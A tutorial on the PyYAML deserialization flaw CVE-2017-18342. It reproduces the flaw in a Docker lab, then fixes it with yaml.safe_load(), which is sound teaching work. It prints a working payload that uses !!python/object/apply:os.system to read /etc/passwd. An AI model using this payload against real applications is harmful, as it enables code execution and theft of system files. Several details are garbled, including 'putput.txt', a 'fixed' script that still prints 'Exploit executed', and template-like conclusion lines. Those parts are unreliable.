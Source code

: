 **CVE-2017-18342**. 

**Objective of the material** 

This tutorial will help you to understand CVE vulnerabilities in detailed way, how to simulate the vulnerability and do advanced exploitation in safe environments. Then how to fix this vulnerability. 

**Description**  

In PyYAML before 5.1, the yaml.load() API could execute arbitrary code if used with untrusted data. The load() function has been deprecated in version 5.1 and the 'UnsafeLoader' has been introduced for backward compatibility with the function.

**What is PyYAML**  

PyYAML is a YAML parser and emitter for the Python programming language 

**Vulnerablity**  

Issue with yaml.load()

Vulnerability: The yaml.load() function is used to parse YAML data.When yaml.load() parses a YAML file, it not only deserializes basic data types (like strings, lists, or dictionaries) but can also instantiate Python objects. 
Arbitrary Code Execution: If untrusted YAML data is passed to yaml.load(), it could cause Python objects or even functions to be instantiated or executed. This behavior leads to arbitrary code execution (RCE), where an attacker could craft a malicious YAML file that runs dangerous commands or code on the server or client, potentially taking full control of the system. 

**Prerequisites** 

Tools/Technologies Needed
Python  
PyYAML  
Docker (for containerization and easy setup) 

Basic Knowledge: 
Understanding YAML format. 
Knowledge of serialization and deserialization concepts. 
 

**Step 1: Create a Vulnerable Python Application**

Create a folder name CVE-2017-18342 and add a file named exploit.py containing the following code: 
 
    import yaml
 
    # Malicious YAML payload
    payload = """ 
    !!python/object/apply:os.system
    args: ["cat /etc/passwd > putput.txt && echo 'File read and written successfully' >> output.txt"] 
    """ 
 
# Attempt to load the malicious payload 
yaml.load(payload, Loader=yaml.UnsafeLoader) 
print("Exploit executed. Check output.txt for the result.") `
 
 
This code reads the contents of a sensitive file (/etc/passwd) and stores it in a file (output.txt). 
The yaml.load() function would execute the os.system call, which is very dangerous. 
If you notice, we use the UnsafeLoad function because for backward compatibility. The UnsafeLoader was introduced after version 5.1, allowing users to explicitly opt into the dangerous behavior of yaml.load().

**Step 2: Create Docker Environment** 

Create a docker-compose.yml file under CVE-2017-18342 to set up the environment with a vulnerable version of PyYAML:
 
version: '3' 
services: 
pyyaml-vulnerable: 
image: python:3.8-slim 
container_name: pyyaml-vulnerable-container 
volumes: 
- .:/app 
working_dir: /app 
command: sh -c "pip install PyYAML==5.1 && python3 exploit.py" 

**Step 3: Run the Vulnerable Application** 

Start the application by using Docker 
Start the docker application - this can be done from the docker desktop by turning it on or restarting. 
Go to CVE-2017-18342 folder in the terminal where all the above files are and run the following code. 
 
 
docker-compose up –build 
 
**Step 4: Observe the Exploit**

After successfully running this vulnerability, you get a new output.txt file that contains user account information. 

you should see the output from the malicious YAML being executed, confirming the exploit: 

You successfully run vulnerabilities! 

**Step 5: Fixing the Vulnerability**

Create a file called safety.py which update the Code to use yaml.safe_load() 

import yaml 
 
# Malicious YAML payload 
payload = """ 
!!python/object/apply:os.system 
args: ["cat /etc/passwd > putput.txt && echo 'File read and written successfully' >> output.txt"] 
""" 
 
# Attempt to load the malicious payload 
yaml.safe_load(payload) 
print("Exploit executed. Check output.txt for the result.") 
 
By replaceing yaml.load() with yaml.safe_load(), which prevents arbitrary code execution by only allowing simple Python objects (like lists and dictionaries) to be loaded.  
 
**Step 6: Update Docker Environment to Test the Fix**

Update docker-compose.yml to test the fixed script. 
 
version: '3' 
services: 
pyyaml-fixed: 
image: python:3.8-slim 
container_name: pyyaml-fixed-container 
volumes: 
- .:/app 
working_dir: /app 
command: sh -c "pip install PyYAML==5.1 && python3 safety.py" 
 
**Step 7: Run the Fixed Application** 

Rebuild and restart the container with the fixed code 
 
Use docker-compose up --build in the terminal to build and run the environment with the corrected 
 
**Step 8: Verify the Fix** 

After running the application, the malicious YAML will no longer be executed: 

The error you're seeing confirms that safe_load() blocks the loading of the custom YAML tag !!python/object/apply:os.system. This is expected behavior when using safe_load() and shows that it is working as a security measure. 

Explanation: 

By using yaml.safe_load(), the deserialization process is limited to basic types, and no arbitrary code execution is possible. The malicious YAML is treated as harmless data. 
 

**Step 9. Best Practices for Deserialization** 

Always use yaml.safe_load() when processing untrusted YAML input. 
Be cautious when deserializing data from unknown sources. Arbitrary code execution is a common deserialization vulnerability in many formats, including YAML, JSON, and XML. 
Upgrade dependencies like PyYAML regularly to ensure you are protected from known vulnerabilities. 
 

**Conclusion** 

Reiterate the importance of using safe_load() instead of load() when working with YAML data to avoid arbitrary code execution vulnerabilities. 
Emphasize that upgrading PyYAML to the latest secure version (5.4.1 or later) also helps prevent this vulnerability. 
Provide a reminder to test all dependencies for security vulnerabilities using tools like pip-audit or similar. 
 
**Additional Resources** 

PyYAML Documentation- https://pyyaml.org/wiki/PyYAMLDocumentation
CVE-2017-18342 Details- https://nvd.nist.gov/vuln/detail/CVE-2017-18342
Best Practices for Deserialization in Python- https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html , https://docs.python.org/3/library/pickle.html#restricting-globals 
 
